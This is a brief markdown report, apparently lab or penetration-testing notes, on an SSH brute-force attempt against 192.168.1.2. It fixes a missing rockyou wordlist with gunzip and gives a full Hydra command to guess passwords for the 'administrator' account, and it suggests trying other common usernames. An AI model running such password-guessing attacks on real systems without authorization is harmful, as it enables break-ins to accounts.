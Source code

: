 # SSH Brute Force Report

## Target: 192.168.1.2
## Port: 22
## Tool Used: Hydra

---

### Issue Encountered

- Hydra failed due to missing rockyou.txt:
```
[ERROR] File for passwords not found: /usr/share/wordlists/rockyou.txt
```

---

### Fix

- Unzip the wordlist:
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```
- Re-run Hydra:
```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.2 -t 4
```

---

**Next Steps:**
- Watch for account lockouts
- Consider testing other common usernames (e.g., `admin`, `test`, `guest`)
